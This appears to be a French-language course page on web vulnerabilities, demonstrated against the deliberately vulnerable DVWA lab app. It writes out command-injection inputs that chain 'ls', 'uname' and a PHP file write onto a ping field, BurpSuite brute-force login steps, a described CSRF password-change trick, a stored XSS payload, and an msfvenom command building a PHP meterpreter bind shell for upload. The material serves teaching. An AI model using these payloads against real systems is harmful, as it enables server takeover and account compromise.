










# Vulnérabilités Web

L'ensemble des démonstrations de ce cours utilise une application Web nommée _Damn Vulnerable Web Application_ ou DVWA. C'est une application avec des vulnérabilités pour tester notre habileté à les exploiter.  

## Exécution de commandes  

Certaines applications Web utilisent les commandes du système d'exploitation pour offrir des services aux utilisateurs. Un pirate peut prendre avantage de ces applications pour exécuter des commandes non prévues.

Dans DVWA, aller dans la section _Command Execution_.


L'application permet de faire un ping.

si on entre `192.168.40.7` :  


Sous Linux, il est possible d'exécuter plusieurs commandes sur la même ligne avec l'opérateur & ou |.

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 & ls -la`


Essayons de voir le contenu du répertoire courant avec `192.168.40.7 | ls -la`


Nous nous trouvons dans quel répertoire? `192.168.40.7 | pwd`


Quelle version de Linux roule? `192.168.40.7 | uname -a`

Créons une nouvelle page Web :  `192.168.40.7 | echo "<?php echo 'Salut la gang' ?>" > salut.php`

Essayons de voir le contenu du répertoire courant après la création du fichier avec `192.168.40.7 | ls -la`


Exécutons la nouvelle page :  


### Source de la vulnérabilité


## Attaque avec une force brute  

Certaines application Web sont susceptibles à une attaque par force brute. Pour démontrer comment faire une telle attaque, nous allons utiliser BurpSuite.  

Pour installer BurpSuite :  

`sudo apt install burpsuite` 


1 - Créer un projet temporaire :  



2 - Démarrer Burp :  




3 - Dans firefox, configurer le proxy :  


4 - Dans firefox, accéder à la page de DVWA :

  

5 - Mettre intercept à on dans Burpsuite :  



6 - Dans firefox, entrer 'user1' et 'pass1' et cliquer sur **login** :  


7 - Dans BurpSuite, sélectionner l'action **send to intruder** :  



8 - Sélectionner l'onglet **intruder**, le sous-onglet **position** et changer le type d'attaque pour **cluster bomb** :  



9 - Sélectionner **user1** et **pass1** :  


10 - Dans l'onglet payloads, ajouter les codes utilisateurs dans le payload 1 et les mots de passe dans le payload 2 :  





11 - Dans l'onglet options, ajouter un Grep - Match pour déterminer si l'attaque a réussi ou non :  



12 - Lancer l'attaque :  


13 - Résultats de l'attaque, nous avons trouvé 1 mot de passe valide :  


## Cross Site Request Forgery (CSRF)  

Avec le CSRF, nous utilisons la session déjà authentifiée d'un utilisateur pour effectuer des actions malicieuses.  

Voici donc une façon d'utiliser la session d'un utilisateur à son insu.  

Créons une page avec le code suivant :  

```
<!DOCTYPE html>
 <head>
  <title>Site malicieux</title>
 </head>
 <body>
  <h1>Rien de malicieux ici, je le jure!</h1>
  
 </body>
</html>
```



En apparence, le site ne semble rien faire de grave. Regardons par contre les accès réseau de la page :  



La seconde entrée, celle correspondant au tag img, appelle une page de changement de mot de passe de l'application Web. Si l'utilisateur est déjà authentifié, son mot de passe changera pour **hack**.  


## Cross Site Scripting

Les sites Web qui ont du contenu créé par les utilisateurs (par exemple un forum) peuvent permettre l'exécution de code Javascript injecté dans le contenu. De cette manière, un utilisateur malicieux peut exécuter du code sur le poste d'une victime lors de sa visite du site Web.  

1 - Aller sur la page de XSS (stored) dans DVWA :  


2 - Écrire le payload dans le message :  

`<script>alert("Bonjour la planète")</script>`  


3 - Résultats :


## Upload  

Si vous pouvez téléverser un fichier sur le serveur, vous pouvez prendre contrôle du serveur.

1 - Créer un fichier avec un payload à l'aide de MSFVenom :  

`msfvenom -p php/meterpreter/bind_tcp lport=4444 -o mp.php`


2 - Aller sur la page upload de DVWA et téléverser mp.php :  


3 - Exécuter le fichier mp.php :  


4 - Lancer Metasploit avec le multi handler et le bon payload :  

  

!!! important  
    Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!   

## Testez vos connaissances  

[Petit quiz sur les vulnérabilités Web](https://forms.office.com/r/Hymgvx9Avb)  
